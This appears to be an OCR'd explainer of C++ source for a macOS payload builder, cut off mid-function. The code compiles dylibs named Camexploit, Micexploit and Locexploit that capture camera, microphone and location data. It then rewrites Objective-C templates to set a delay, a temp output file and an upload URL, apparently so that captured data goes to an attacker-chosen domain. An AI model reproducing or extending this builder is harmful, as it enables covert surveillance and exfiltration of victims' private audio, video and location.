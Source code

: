 These are the header files that the code needs.

```
bool isNumber(const std::string& str) {
    for (char const &c : str) {
        if (!std::isdigit(c)) return false;
    }
    return true;
}
```

Here, checks if a given string is a number by iterating through each character in the string and ensuring it's a digit. It

returns `true` if the string is a number, `false` otherwise.

```
void compileAndExport(const std::string &libraryName) {
    std::string compileCommand;
    if (libraryName == "Camera") {
        compileCommand = "gcc -dynamiclib -framework Foundation -framework AVFoundation ./libs/Camexploit.m -o ./Exports/Cam.dylib";
    } else if (libraryName == "Microphone") {
        compileCommand = "gcc -dynamiclib -framework Foundation -framework AVFoundation ./libs/Micexploit.m -o ./Exports/Micexploit.dylib";
    } else if (libraryName == "Location") {
        compileCommand = "gcc -dynamiclib -framework Foundation -framework CoreLocation -framework AVFoundation ./libs/Locexploit.m -o ./Exports/Locexploit.dylib";
    }

    int result = system(compileCommand.c_str());
    if (result == 0) {
        std::cout << libraryName << " compilation successful. Exported to ./Exports folder.\n";
    } else {
        std::cerr << libraryName << " compilation failed. Please check the source code.\n";
    }
}
```

This function compiles and exports a library based on its name. It prepares a compilation command string based on the

library's name and then executes it using the system function. After execution, it checks if the compilation was successful

and notifies the user accordingly.

```
void updateFileContent(const std::string& filePath, const std::string& timeInSeconds, const std::string& outputFilename, const std::string& domainName) {
    std::ifstream file(filePath);
    std::ostringstream tempStream;
    std::string line;

    while (std::getline(file, line)) {
        if (line.find("[NSThread sleepForTimeInterval:") != std::string::npos) {
            tempStream << "[NSThread sleepForTimeInterval:" << timeInSeconds << ".0];\n";
        } else if (line.find("[NSTemporaryDirectory() stringByAppendingPathComponent:@\"file_name\"]") != std::string::npos) {
            tempStream << "NSString *outputFilePath = [NSTemporaryDirectory() stringByAppendingPathComponent:@\"" << outputFilename << "\"];\n";
        } else if (line.find("[request setURL:[NSURL URLWithString:@\"http://a.com\"]]") != std::string::npos) {
            tempStream << "[request setURL:[NSURL URLWithString:@\"" << domainName << "\"]];\n";
        } else {
            tempStream << line << "\n";
        }
    }
```